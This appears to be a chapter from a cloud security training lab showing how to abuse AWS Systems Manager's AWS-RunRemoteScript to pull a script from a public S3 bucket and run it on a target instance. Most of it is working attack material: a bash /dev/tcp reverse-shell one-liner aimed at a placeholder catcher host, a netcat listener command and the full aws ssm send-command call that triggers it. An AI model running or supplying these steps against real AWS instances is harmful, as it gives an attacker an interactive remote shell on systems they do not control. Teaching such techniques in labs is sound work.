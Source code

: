 # Reverse shell using a hosted shell script

## Introduction

As we can use SSM to execute commands, we can use it to obtain a shell on the remote system. Using the `AWS-RunRemoteScript` document we can execute a script hosted either on Github or an S3 bucket.

## What are we going to cover?

This chapter covers the capability of AWS SSM to pull a script hosted on the Internet and execute it on the target. We will use this to gain a reverse shell.

## Steps to achieve this (DEMO)

- Run these commands from the student machine.
  
- Create a S3 bucket, give it any name and upload the following as `reverse-shell-script.sh` to the bucket

```
#!/bin/bash
bash -i >& /dev/tcp/REVERSE-SHELL-CATCHER/9999 0>&1
```

- Make the file public
- On the machine where you will catch the reverse shell, start netcat

`nc -lvp 9999`

- Run the following command with the shell script S3 bucket path and the instance ID of the machine on which you want a reverse shell

`aws ssm send-command --document-name "AWS-RunRemoteScript" --instance-ids "INSTANCE-ID-HERE" --parameters '{"sourceType":["S3"],"sourceInfo":["{\"path\":\"PATH-TO-S3-SHELL-SCRIPT\"}"],"commandLine":["/bin/bash NAME-OF-SHELL-SCRIPT"]}' --query "Command.CommandId"`

- A reverse shell will have connected to the netcat listener

## Additional references

- [AWS-RunRemoteScript Example](https://docs.aws.amazon.com/systems-manager/latest/userguide/integration-remote-scripts.html)
